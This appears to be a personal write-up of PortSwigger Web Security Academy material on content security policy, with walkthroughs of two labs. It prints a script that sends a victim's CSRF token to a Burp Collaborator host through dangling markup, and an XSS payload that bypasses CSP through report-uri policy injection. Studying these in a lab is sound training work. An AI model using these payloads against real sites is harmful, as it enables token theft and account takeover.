




## Content security policy

Content security policy ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)) is a browser mechanism that aims to mitigate the impact of cross-site scripting and some other vulnerabilities. If an application that employs CSP contains XSS-like behavior, then the CSP might hinder or prevent exploitation of the vulnerability. Often, the CSP can be circumvented to enable exploitation of the underlying vulnerability.

## What is CSP (content security policy)?

CSP is a browser security mechanism that aims to mitigate [XSS](https://portswigger.net/web-security/cross-site-scripting) and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

## Mitigating XSS attacks using CSP

The following directive will only allow scripts to be loaded from the [same origin](https://portswigger.net/web-security/cors/same-origin-policy) as the page itself:

`script-src 'self'`

The following directive will only allow scripts to be loaded from a specific domain:

`script-src https://scripts.normal-website.com`

Care should be taken when allowing scripts from external domains. If there is any way for an attacker to control content that is served from the external domain, then they might be able to deliver an attack. For example, content delivery networks (CDNs) that do not use per-customer URLs, such as `ajax.googleapis.com`, should not be trusted, because third parties can get content onto their domains.

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](https://portswigger.net/web-security/csrf/tokens), for example.

Some browsers, such as Chrome, have built-in [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) mitigation that will block requests containing certain characters, such as raw, unencoded new lines or angle brackets.

Some policies are more restrictive and prevent all forms of external requests. However, it's still possible to get round these restrictions by eliciting some user interaction. To bypass this form of policy, you need to inject an HTML element that, when clicked, will store and send everything enclosed by the injected element to an external server.

## Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

> This lab using a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external web sites.
> To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates the [CSRF token](https://portswigger.net/web-security/csrf/tokens) using Burp Collaborator. You need to label your vector with the word "Click" in order to induce the simulated victim user to click it. For example:
> `<a href="">Click me</a>`
> You can log in to your own account using the following credentials: `wiener:peter`

--> So first i logged in as `wiener` with password `peter` because there were no search bar where i can search so let's login first to see more things . And also let's intercept the login response to see what are the policies defined in CSP.

And i found this:

```
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=6Rdm5ilHpeXUpVdbj5BxyhyBO20tB8UY; Secure; HttpOnly; SameSite=None
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
Connection: close
Content-Length: 0
```

I found some bypass scripts for these policies on google but none of them worked :(

You can find some resources here :

- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://brutelogic.com.br/blog/csp-bypass-guidelines/

And after login i found that we can change our email so i intercepted the request for changing my email and i found that it's vulnerable to XSS (because portswigger said this!) so we have to use this functionality to steal the csrf token of the victim.

> Note: store this request in repeater because in future we will use it!

So i used this payload in our exploit server :

```html
<script>
  if (window.name) {
    new Image().src =
      "//your-collaborator-id.burpcollaborator.net?" +
      encodeURIComponent(window.name);
  } else {
    location =
      "https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://your-exploit-server-id.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27";
  }
</script>
```

After URL decode:

```html
<script>
  if(window.name) {
  	new Image().src='//your-collaborator-id.burpcollaborator.net?' encodeURIComponent(window.name);
  	}
  else {
  	location = 'https://your-lab-id.web-security-academy.net/my-account?email="><a href="https://your-exploit-server-id.web-security-academy.net/exploit">Click me</a><base target='';
  }
</script>
```

Let's understand the code step by step:

- first we are checking if there is a current window name exists or not which we can get by `window.name`. If it exists then we will create one new image with src of our collaborator link. learn more about `window.name` [here](https://developer.mozilla.org/en-US/docs/Web/API/Window/name#syntax)
- `encodeURIComponent` will URL encode the window.name. Learn more about it [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent)
- and if there is no `window.name` exist then we will redirect the victim to our lab's change email URL. with our payload as `email`. and our payload is a simple anchor tag which contains our exploit server's url as `href`

:::tip

You can get your burp collaborator id by going to `burp -> burp collaborator client -> copy to clipboard`

:::

--> Click `store` and then click `send exploit to Victim`

--> After that check for requests in collaborator client tab by clicking `poll now` and you will see one request.

And we got the CSRF token of victim!



--> Now the next step is to generate CSRF poc to use this CSRF token and for that first go back to the change email request which we stored in repeater and do `right click -> generate CSRF Poc` and change the CSRF token and also goto `options` tab and select `Include auto submit script` to auto submit the script when loaded.

Now click `regenerate` and `copy HTML`



--> Now we will paste this HTML in our exploit server and click `store` and `send exploit to Victim`



And we solved the lab!

## Mitigating dangling markup attacks using CSP

The following directive will only allow images to be loaded from the same origin as the page itself:

`img-src 'self'`

The following directive will only allow images to be loaded from a specific domain:

`img-src https://images.normal-website.com`

Note that these policies will prevent some dangling markup exploits, because an easy way to capture data with no user interaction is using an `img` tag. However, it will not prevent other exploits, such as those that inject an anchor tag with a dangling `href` attribute.

## Bypassing CSP with policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. Usually, this `report-uri` directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` directive, which allows you to control `script` elements, but not events. Crucially, this new directive allows you to overwrite existing `script-src` directives. Using this knowledge, you should be able to solve the following lab.

## Lab: Reflected XSS protected by CSP, with CSP bypass

> This lab uses [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) and contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability.
> To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and calls the `alert` function.
> Please note that the intended solution to this lab is only possible in Chrome.

--> So first we have search functionality so i searched for `hacker` and intercepted the request and response

:::tip

You can intercept response by right clicking on request and then going to `Do intercept->response to this request`

:::

And i found this content-security-policy!

```
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

If we look closely then we can see that there is a one directory called `/csp-report` which is taking `token` parameter. So i went to that directory and added `1234` in token parameter and i found that it was getting reflected in CSP!!



--> So using this parameter we can change or overwrite the CSP.

So i searched on google for `policy injection` methods and i found these 2 amazing blogs:

- https://portswigger.net/research/bypassing-csp-with-policy-injection
- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

--> So i added simple xss payload in `search` parameter and tried to add different rules in `token` parameter which were mentioned in hacktricks website and the below payload worked for me:

```
?search=<script>alert(document.domain)</script>&token=;script-src-elem 'unsafe-inline'
```

And we solved the lab!

## Protecting against [clickjacking](https://portswigger.net/web-security/clickjacking) using CSP

The following directive will only allow the page to be framed by other pages from the same origin:

`frame-ancestors 'self'`

The following directive will prevent framing altogether:

`frame-ancestors 'none'`

Using content security policy to prevent clickjacking is more flexible than using the X-Frame-Options header because you can specify multiple domains and use wildcards. For example:

`frame-ancestors 'self' https://normal-website.com https://*.robust-website.com`

CSP also validates each frame in the parent frame hierarchy, whereas `X-Frame-Options` only validates the top-level frame.

Using CSP to protect against clickjacking attacks is recommended. You can also combine this with the `X-Frame-Options` header to provide protection on older browsers that don't support CSP, such as Internet Explorer.
